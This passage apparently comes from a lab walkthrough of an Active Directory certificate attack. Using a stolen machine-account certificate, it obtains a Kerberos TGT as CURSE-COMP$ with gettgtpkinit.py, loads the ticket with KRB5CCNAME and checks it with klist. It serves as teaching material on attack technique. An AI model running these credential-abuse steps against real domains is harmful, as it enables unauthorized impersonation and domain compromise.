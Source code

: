 ![Windows client looking for updates](../assets/img/wireshark.png)

Since we got the certificate let's authenticate with PKINIT to the domain. We use then PKINITools  [PKINITools](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) kit's gettgtpkinit.py to obtain our TGT:


```bash
~ python3 /opt/PKINITtools/gettgtpkinit.py -pfx-base64 \$(cat a.b64 ) 'jjk.local/CURSE-COMP$' 'curse-comp.ccache' -dc-ip 192.168.56.105
```
![Asking  for tgt with PKINIT](../assets/img/Ask_TGT_PKINIT.png)


Once we got the TGT, we load it in memory with KRB5CCNAME export command. The klist command allows us to list the loaded Kerberos tickets, we can see that we have obtained a TGT as CURSE-COMP$, the machine account we ask certificate for.

```bash
~ export KRB5CCNAME=curse-comp.ccache
~ klist
```

![klist after w11 obtained TGT](../assets/img/klist-w11.png)
